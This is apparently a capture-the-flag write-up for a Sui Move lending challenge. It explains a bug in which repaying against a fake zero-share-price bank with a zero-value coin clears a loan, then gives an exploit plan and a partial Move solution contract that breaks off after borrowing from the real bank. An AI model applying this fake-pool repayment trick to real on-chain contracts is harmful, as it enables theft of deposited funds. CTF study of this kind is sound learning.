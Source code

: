 Observations

* **`is_solved` only looks at `guard.is_corrupted`.**
  The bank, accounts, shares, receipts – none of that is re-checked.
* `lend` happily hands us real coins and only remembers the debt in
  *`acct.dx`* and the per-phantom-type **bag**.
* `repay` can be pointed at **any** `CryonUnderbank<X,SX>` object; the
  debt filter is on `SX`.
  If we repay to a bank whose `SX ≠ original_SX` *and* whose
  `share_price = 0`, it accepts a **0-value coin**.

That is the core bug.


### Exploit plan

1. **Create a fake bank**
   `new_underbank<CRYON_CREDITS, S_CRYON_CREDITS_HA>(share_price = 0)`.
2. `open_account` → `lend` 3 333 CC from the **real** bank.
   *We now hold the exact bribe.*
3. `bribe_guard` with those coins – flag condition met.
4. Call `repay` + `consume_receipt` **against the fake bank** with a
   zero-value coin.
   This clears `acct.dx` and disposes the non-droppable `LendReceipt`
   so the compiler is happy.
5. Move the remaining key objects into shared storage; function returns
   with a clean stack.

---

### Solution contract

```rust
module solution::solution {


    use sui::tx_context::TxContext;
    use sui::transfer;           // public_share_object / public_transfer
    use sui::balance;            // create_supply, zero()

    use challenge::cryon_credits::CRYON_CREDITS;
    use challenge::otternaut_syndicate::{
        S_CRYON_CREDITS,
        CryonUnderbank, CouncilGuard, BankCap,
        open_account, lend, repay, consume_receipt, bribe_guard,
        new_underbank,
    };

    public struct S_CRYON_CREDITS_HA has drop {}

    #[allow(lint(self_transfer))]
    public fun solve(
        bank : &mut CryonUnderbank<CRYON_CREDITS, S_CRYON_CREDITS>,  // (1, 2)
        guard: &mut CouncilGuard,                                    // (1, 1)
        ctx  : &mut TxContext,
    ) {
        /* spin-up a dummy bank with share_price = 0 */
        let supply = balance::create_supply(S_CRYON_CREDITS_HA {});
        let (mut fake_bank, fake_cap)
            = new_underbank<CRYON_CREDITS, S_CRYON_CREDITS_HA>(supply, /*price*/ 0, ctx);

        /* open an account & drain the REAL bank */
        let mut acct = open_account<CRYON_CREDITS>(ctx);
        let (loot, receipt) =
            lend<CRYON_CREDITS, S_CRYON_CREDITS>(&mut acct, bank, 3_333, ctx);

```